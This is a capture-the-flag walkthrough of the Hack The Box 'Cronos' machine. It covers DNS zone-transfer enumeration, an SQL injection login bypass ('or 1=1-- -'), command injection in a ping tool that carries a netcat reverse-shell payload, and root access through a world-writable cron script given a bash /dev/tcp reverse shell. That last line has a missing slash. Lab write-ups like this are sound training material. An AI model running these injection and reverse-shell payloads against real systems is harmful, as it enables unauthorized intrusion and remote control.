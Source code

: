 ## Introduction
Hi, today we will hack the Cronos box from HTB. This is a medium-difficulty machine that was fun to do, with no CVEs and only manual methods. We will gain a foothold by logging into a custom web app with SQLi, which has RCE. After that, we will exploit a cron job to gain elevated privileges. Lets go!
## Discovery
We will start with nmap:

![image](https://github.com/user-attachments/assets/2c57e84d-41b1-4be9-a166-1f06ad4e9029)

Okay so we have three services open:
- ssh
- DNS
- http

Bruteforcing ssh is like banging head against the wall, since there are other ports open we are not that desperate yet, i will start with http:

![image](https://github.com/user-attachments/assets/de0cb98d-a5ef-41ab-a1d5-5615021a9eba)

We can see that it is deafult apache2 page, nothing to do here. I ran dirb and found nothing. So i will move to DNS enumeration:

![image](https://github.com/user-attachments/assets/dfa45ab8-dbd5-47d4-b610-d0a4a233cb53)

I ran nslookup to resolve cronos IPs:

![image](https://github.com/user-attachments/assets/949a764d-9df9-459a-a61d-cc139617848a)

And we obtained subdomain: ```ns1.cronos.htb```, we also got domain name: ```cronos.htb```, when there is TCP DNS its allways worth trying to perform zone transfer:

![image](https://github.com/user-attachments/assets/ad8a520c-28f3-4c97-aa84-00a4cb330a95)

Here we got another two subdomains so we have now:
```
ns1.cronos.htb
www.cronos.htb
admin.cronos.htb
```
After adding theese to /etc/hosts, i moved to see what is happening at ```www.cronos.htb```:

![image](https://github.com/user-attachments/assets/0ac63058-06f2-4eb6-a986-7b9f08cdd524)

Not much there, every link go to external web pages and we dont want to fall out of scope, i will look at other subdomains before enumerating each one of them.

![image](https://github.com/user-attachments/assets/03e761bd-e6a5-4d25-8266-8ae9d5f1a01e)
## Shell
We got custom made login page, in this case when we have custom made input window its good to test for SQLi, i tried a few payloads and: ```'or 1=1-- -``` worked:

![image](https://github.com/user-attachments/assets/15e96d90-94a5-440b-97d9-1cd4d1460c4d)

This tells us that SQL query looks something like this:
```
SELECT * from users where user = '[username]' AND password = '[password]';
```
After injection it would look something like this:
```
SELECT * from users where user = ''or 1=1-- -' AND password = '[password]';
```
Everything after ```'or 1=1-- -``` is commented leaving our query in logical statement that is always true.                                        
After logging in we have this "Net Tool v0.1", i intercepted request with burp and saw that there is command being executed so i tried to pipe it with ls for easy PoC:

![image](https://github.com/user-attachments/assets/bb5450ae-bb92-4dab-8fdc-2aae32a04484)

It worked! Here is what is happening behind the scenes:

![image](https://github.com/user-attachments/assets/3b6f48f6-45a8-47f1-a5a7-20b5ec862c91)

Now we can move to shell:
```
command=ping+-c+1&host=10.10.16.5+|+rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|sh+-i+2>1|nc+10.10.16.5+1234+>/tmp/f
```

![image](https://github.com/user-attachments/assets/fa081b86-e5c3-4472-9830-7502f91d0e67)

And we got foothold! user.txt is in home directory of only user on this box and its readable by www-data.

## Privilege Escalation
I ran linpeas.sh and found that there is interesting cronjob running:

![image](https://github.com/user-attachments/assets/16bc04d7-2763-45d4-adef-494e46aa3d5d)

We could also enumerate it with: ```cat /etc/crontab```

![image](https://github.com/user-attachments/assets/287ba41a-318a-4cb6-8e3c-298ea716f36e)

Now we want to know if we can write in this file since it is executed by root and would be very easy to obtain root:

![image](https://github.com/user-attachments/assets/0adb8e15-4213-4694-b040-26d11b7132ea)

Nice we got write privilege, i didnt upgrade my shell to full tty becouse i thought we would get access through ssh by reading some config files thats why vi/vim didnt work for the first time but once i upgraded shell to full tty i could use vi to modify script, here is how to upgrade shell:                                         
https://0xffsec.com/handbook/shells/full-tty/                                                     
Now we wanna try to edit file:

![image](https://github.com/user-attachments/assets/8db2d435-35e2-4d69-85c3-6bce005e2219)

I added simple shell command from https://www.revshells.com/:
```
system("bash -c 'bash -i >& /dev/tcp10.10.16.5/443 0>&1'")
```
And just like that we obtained root access on this box.

![image](https://github.com/user-attachments/assets/f7e4ada1-6f27-4191-a07d-30f464b67b3f)

## Conclusion
It was really fun machine, easy/medium level i learned how to enumerate DNS, hope you also learned something and had fun!
